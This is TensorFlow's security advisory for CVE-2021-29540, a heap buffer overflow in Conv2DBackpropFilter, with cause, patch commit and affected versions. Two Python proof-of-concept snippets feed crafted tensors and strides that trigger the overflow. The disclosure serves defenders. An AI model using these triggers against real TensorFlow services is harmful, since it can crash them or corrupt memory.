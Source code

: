 ## TFSA-2021-028: Heap buffer overflow in `Conv2DBackpropFilter`

### CVE Number
CVE-2021-29540

### Impact
An attacker can cause a heap buffer overflow to occur in `Conv2DBackpropFilter`:

```python
import tensorflow as tf

input_tensor = tf.constant([386.078431372549, 386.07843139643234],
                           shape=[1, 1, 1, 2], dtype=tf.float32)
filter_sizes = tf.constant([1, 1, 1, 1], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([386.078431372549], shape=[1, 1, 1, 1],
                           dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(
  input=input_tensor,
  filter_sizes=filter_sizes,
  out_backprop=out_backprop,
  strides=[1, 66, 49, 1],
  use_cudnn_on_gpu=True,
  padding='VALID',
  explicit_paddings=[],
  data_format='NHWC',
  dilations=[1, 1, 1, 1]
)
```

Alternatively, passing empty tensors also results in similar behavior:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[0, 1, 1, 5], dtype=tf.float32)
filter_sizes = tf.constant([3, 8, 1, 1], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([], shape=[0, 1, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(
  input=input_tensor,
  filter_sizes=filter_sizes,
  out_backprop=out_backprop,
  strides=[1, 66, 49, 1],
  use_cudnn_on_gpu=True,
  padding='VALID',
  explicit_paddings=[],
  data_format='NHWC',
  dilations=[1, 1, 1, 1]
)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/1b0296c3b8dd9bd948f924aa8cd62f87dbb7c3da/tensorflow/core/kernels/conv_grad_filter_ops.cc#L495-L497)
computes the size of the filter tensor but does not validate that it matches the
number of elements in `filter_sizes`. Later, when reading/writing to this
buffer, code uses the value computed here, instead of the number of elements in
the tensor.

### Patches
We have patched the issue in GitHub commit
[c570e2ecfc822941335ad48f6e10df4e21f11c96](https://github.com/tensorflow/tensorflow/commit/c570e2ecfc822941335ad48f6e10df4e21f11c96).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
